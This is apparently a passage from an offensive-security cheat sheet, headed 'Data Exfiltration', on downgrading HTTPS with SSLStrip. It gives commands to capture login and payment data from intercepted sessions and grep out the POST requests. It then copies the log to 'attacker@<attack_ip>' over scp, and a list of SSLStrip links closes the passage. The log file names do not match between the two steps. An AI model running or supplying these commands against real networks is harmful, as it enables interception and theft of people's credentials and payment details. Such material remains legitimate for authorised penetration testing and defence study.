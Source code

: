 ## Data Exfiltration

#### Exfiltrating Sensitive Information via Downgraded HTTPS

1. **Capturing Login Data from Downgraded HTTPS Sessions**: Intercepts sensitive data such as login credentials or payment information from downgraded HTTPS sessions.
    ```bash
    sslstrip -l 8080 -w sensitive_data.log
    grep "POST" sensitive_data.log
    ```
2. **Exfiltrating Captured Data**: Uses `scp` to exfiltrate the captured log file containing sensitive data.
    ```bash
    scp sslstrip.log attacker@<attack_ip>:~/exfiltrated_data/
    ```


# Resources

|**Name**|**URL**|
|---|---|
|SSLStrip Documentation|https://www.thoughtcrime.org/software/sslstrip/|
|SSLStrip GitHub Repository|https://github.com/moxie0/sslstrip|
|Defeating SSL with SSLStrip|https://blog.heckel.xyz/2018/02/20/sslstrip-mitm-attacks/|
|How to Use SSLStrip in Penetration Testing|https://www.offensive-security.com/metasploit-unleashed/sslstrip/|
|SSLStrip with ARP Spoofing|https://null-byte.wonderhowto.com/how-to/man-middle-attack-part-1-arp-spoofing-0169430/|
|SSLStrip and DNS Spoofing|https://null-byte.wonderhowto.com/how-to/hack-like-pro-hijack-https-traffic-with-dns-spoofing-sslstrip-0184848/|
|SSLStrip Attack Defense Mechanisms|https://resources.infosecinstitute.com/topic/sslstrip-and-ssl-attacks/|
|SSLStrip for Red Teamers|https://www.pentestpartners.com/security-blog/sslstrip-and-bypassing-hsts/|

